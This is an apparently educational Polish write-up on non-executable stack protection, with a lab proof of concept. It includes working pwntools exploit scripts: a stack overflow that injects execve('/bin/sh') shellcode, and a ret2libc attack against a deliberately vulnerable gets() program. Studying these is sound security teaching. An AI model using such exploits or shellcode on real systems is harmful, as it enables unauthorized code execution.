

# Executable space protection

### 1. Różne sposoby radzenia sobie z obszarami pamięci, do którym można pisać i które można wykonywać

Dość ważnym aspektem bezpieczeństwa jest rozdzielanie uprawnień obszarom pamięci. Pamięć oznaczona jednocześnie jako W (write) i X (execute) stwarza realne zagrożenie, bo pozwala na wykonanie dowolnego kodu przez atakującego.

Problem rozwiązywany jest zarówno sprzętowo, jak i w oprogramowaniu.

Ważna jest polityka (W^X) - mówiąca, że dana strona pamięci może być tylko i wyłącznie albo wykonywalna, albo można do niej pisać. Polityka ta została wprowadzona w OpenBSD 3.3 w 2003 roku. Polityka jest dość dobrą obroną przed atakami buffer overflow.

Odpowiedzią Microsoftu było DEP (Data Execution Preventon) wprowadzone w Windows XP zawierające szereg zabezpieczeń - między innymi obsługę `NX-bit` oraz później - ASLR.

Obecnie sprzętowym sposobem realizacji jest tak zwany `NX-bit` odpowiadający właśnie za wykonywalność pamięci. Z tego właśnie korzysta jądro Linuxa, jeżeli procesor obsługuje tę funkcję.

W innym przypadku możliwa jest również emulacja tej funkcjonalności (przykład łatki do jądra - Exec Shield i PaX). Emulacja jest jednak dość kosztowna.

Na Linuxie do ręcznego ustawienia uprawnień obszaru służy syscall `mprotect()`. Wywoływany z odpowiednimi flagami oraz adresami pamięci.

W współczesnym świecie dobre rozdzielanie uprawnień obszarom pamięci jest dość znane i implementowane jako domyślne funkcje w najczęstszych przypadkach. Takim przypadkiem jest niewykonywalność stosu wywołań, który postaram się zeksploitować w następnych punktach.

### 2. Opis

`gcc` domyślnie włącza non-executable stack - można go wyłączyć flaga `-z execstack`.

Tak samo zachowuje się `clang`. 

Jest to argument przekazywany do linkera, który mapuje proces na przestrzeń adresów. Wtedy też przestrzeń przeznaczona na stos jest oznaczana bez flagi `X` odpowiedzialnej za wykonywalność..


Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stosu, dlatego też opcja może zostać włączona. Wykonywalny stos był kiedyś prawie dodatkową funkcją.

Jest to związane z tym, jak kompilator `gcc` zachowowywał się w przypadku `nested function`. Kompilator wtedy odkłada na stosie tak zwaną "trampolinę" - czyli kod, który musi być wykonywalny na stosie. Obecne problem rozwiązywany jest bez wykonywalnego stosu za pomocą deskryptorów.

Wykonywalny stos jest pokonywany za pomocą oznaczenia pamięci stosu jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.

Wyłączenie wykonywalnego stosu jest dość podstawową metodą obrony przez eksploitacją binarną aplikacji i następne rozdziały bedą w większości zakładać, że opcja ta jest używana.

Oznaczenie pamięci jako niewykonywalna obecnie najcześciej odbywa się za pomocą ustawienia flagi `NX` w tablicy strony.

Implementacje na różnych systemach nie różnią się zbytnio.

### 3. Proof of concept - atak na wykonywalny stos
Pierwszym omówionym exploitem i obroną przed nim będzie wykonywalny stos.

Kompilacja:
- **PIE**: wyłączony - PIE nie ma wpływu na ten exploit
- **ASLR**: wyłączone - włączone ASLR sprawi, że adres stosu będzie losowy, więc przekierowanie wykonania na nasz kod byłoby bardzo trudne.
- **EXEC**: wyłączony - jest to idea tego exploitu.
- **CANARY**: wyłączony - kanarek nie pozwoliłby nadpisać adresu powrotu, zajmiemy się nim w dalszej części.

Kod programu, który bedę exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu otrzymywanego od użytkownika.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić na końcu inputu, aby przepełnić bufor i oszukać sprawdzenie.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

Schemat exploitacji jest następujący:

* ustalić ilość danych, które musimy podać, aby nadpisać adres powrotu,
* ustalić miejsce w pamięci, w którym znajduje się bufor,
* nadpisać adres powrotu adresem bufora, w którym znajduje się nasz kod.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. Program kończy się poprawnie i nie wyrzuca błędu.

Podłączając do procesu debugger jestem w stanie ustalić jak dużo `a` muszę wysłać, aby nadpisać rejestr `eip`, który odpowiada za powrót z funkcji.

W przypadku podania 24 znaków następna nadpisana pamięć wpada w rejestr `eip`.

Wysłałem wiadomość:
```python
name = "a"*8+"\x00"+"a"*15 + '\x11\x11\x11\x11'
```


Rejestr został nadpisany. Jest to pierwszy krok exploitacji. Teraz mam kontrolę nad wykonaniem programu. Skieruję ją na swój kod, który wpisze do bufora.

Z debuggera wyciągam adres miejsca, w którym nadpisuję dane - adres bufora.

Adres ten jest stały, bo nie używamy ani PIE, ani ASLR.

Dopisując do naszej wiadomości adres bufora powiększony o offset generowany przez poprzednie wiadomości, uda nam się skierować wykonywanie programu na złośliwy kod, który jesteśmy w stanie wstrzyknąć za adresem.

```python
name += "\x20\xd2\xff\xff"
```


W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve z odpowiednimi parametrami. Shellcode ten zaczerpnąłem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

Jest to shellcode ładujący odpowiednie argumenty do odpowiednich rejestrów i wywołujący funkcję execve syscallem z argumentami wskazującymi na `bin/sh`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Cały exploit wygląda następująco:

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15 # inject aaaas till eip
name += "\x20\xd2\xff\xff" # inject address of shellcode to eip
name += "\x31\xc0\x50\x68\x2f\x2f\x73"+"\x68\x68\x2f\x62\x69\x6e\x89"+"\xe3\x89\xc1\x89\xc2\xb0\x0b"+"\xcd\x80\x31\xc0\x40\xcd\x80" #shellcode to spawn shell

p.sendline(name)

p.interactive()

```


Exploit działa na programie skompilowanym z wykonywalnym stosem. Widzimy tu interaktywny shell.


Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stosie nie działa. Program zakończył działanie sygnałem SIGSEGV.


### 4. Proof of concept - atak na niewykonywalny stos - ret2libc

Ideą tego exploita jest podmiana adresu powrotu na adres funkcji z biblioteki `libc`. W tym przypadku interesuje nas funkcja system i wywołanie jej ze stringiem `/bin/sh`. Argumenty dla tej funkcji przekazywane są przez stos.

Kod podatnego programu:

Kompilacja:
- **PIE**: włączony - nie wpływa na ten exploit.
- **ASLR**: wyłączone - włączone ASLR sprawi, że adres funkcji z biblioteki bedzie losowy, co sprawia, że wykonanie jest bardzo utrudnione.
- **EXEC**: włączony - nie wpływa na exploit.
- **CANARY**: wyłączony - kanarek nie pozwoliłby nadpisać adresu powrotu, zajmiemy się nim w dalszej cześci.

```c
// gcc vuln.c -std=c99 -m32 -fno-stack-protector -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void ask_for_name()
{
    char name[16];
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}

```


Staram się ustalić, ile losowych znaków muszę przesłać, aby nadpisać powrót - procedura podobna do ostatniego exploita.

```python
from pwn import *

p = process("./vuln_2.o")

p.readuntil("What's your name?\n")

name = "aaaabbbbccccddddeeeeffffgggghhhhiiii"

p.sendline(name)
```


W `eip` trafiło h. Wiem już kiedy nadpisuję adres powrotu.

W tym miejscu chcę wkleić adres funkcji `system` z `libc`, która pozwoli mi wywołać shell.

Sprawdzam adres tej funkcji w debuggerze.


Adres ten doklejam do exploita.

Zaraz za tym adresem powinien znajdować się adres powrotu z tej funkcji. W tym przypadku nie ma to znaczenia, bo po wywołaniu shell system może wyrzucić sygnał `SEGSIGV`.

Chcę też znaleźć stringa `/bin/sh`, który może znajdować się również w `libc` i przyda się do wywołania funkcji `system`.

W tym celu szukam offsetu tego stringa w samej bibliotece i dodaję go do bazowego adresu biblioteki znalezionego w gdb.


String znajduje się na offsecie `18c33c`. Dodaje tą wartość do `f7dcc0000` - adresu bazowego biblioteki. Otrzymuję adres `f7f5833c`.

W tym momencie exploit wygląda następująco i powinien dostarczyć nam shell mimo `nonexec` stosu.
```python

from pwn import *

p = process("./vuln_2.o")

p.readuntil("What's your name?\n")

name = "aaaabbbbccccddddeeeeffffgggg" # junk
name += '\x10\x0f\xe1\xf7' #address of system in libc
name += '\x00\x00\x00\x00' # ret
name += '\x3c\x83\xf5\xf7'#address of binsh in libc 0xfdcc000 + 0x18c33c


p.sendline(name)

p.interactive()
```

Exploit działa.


Otrzymuję interaktywny shell i tym samym omijam zabezpieczenie niewykonywalnego stosu.

### 5. Wnioski

Kontrolowanie tego czy dane miejsce w pamięci może wykonywać kod jest ważne i pozwala zapobiegać najprostszym atakom typu buffer overflow. Jednak nie jest to remedium na wszystkie ataki.

Ataki typu ROP lub RET2LIBC mogą być wykonane z `nonexec` stosem. Jest to zabezpieczenie dość proste i konieczne. Niewykonywalny stos powinien być standardem.

